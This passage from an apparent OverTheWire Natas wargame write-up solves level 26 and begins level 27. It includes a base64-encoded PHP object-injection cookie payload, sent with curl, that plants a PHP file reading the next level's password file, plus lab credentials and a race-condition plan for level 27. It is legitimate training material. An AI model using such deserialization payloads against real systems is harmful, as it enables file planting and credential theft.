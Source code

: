 ```php
        ;
    }
}
$new_object = new Logger("hello");
echo base64_encode(serialize($new_object));
?>
```

```
$ curl -u natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T http://natas26.natas.labs.overthewire.org/ -b 'drawing=Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxMjoiaW1nL3ZpbmcucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6MDoiIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6NjE6Ijw/cGhwIGVjaG8gZmlsZV9nZXRfY29udGVudHMoJy9ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3JykgPz4iO30='
```

We steal the password successfully.

```
$ curl -u natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T http://natas26.natas.labs.overthewire.org/img/ving.php
55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ
```

# 28. Level 27

```php
<?php
// http://natas27.natas.labs.overthewire.org/index-source.html
function checkCredentials($link,$usr,$pass){

    $user=mysql_real_escape_string($usr);
    $password=mysql_real_escape_string($pass);

    $query = "SELECT username from users where username='$user' and password='$password' ";
    $res = mysql_query($query, $link);
    if(mysql_num_rows($res) > 0){
        return True;
    }
    return False;
}
?>
```

`mysql_real_escape_string` makes SQL injection really difficult.

The trick to beating this level is in the comments at the top of the page.

```
// database gets cleared every 5 min
```

We can do this by spamming login attempts to the server and if we post at the exact moment where the database gets cleared but the natas28 user is not automatically added yet, we can create our own natas28 user.
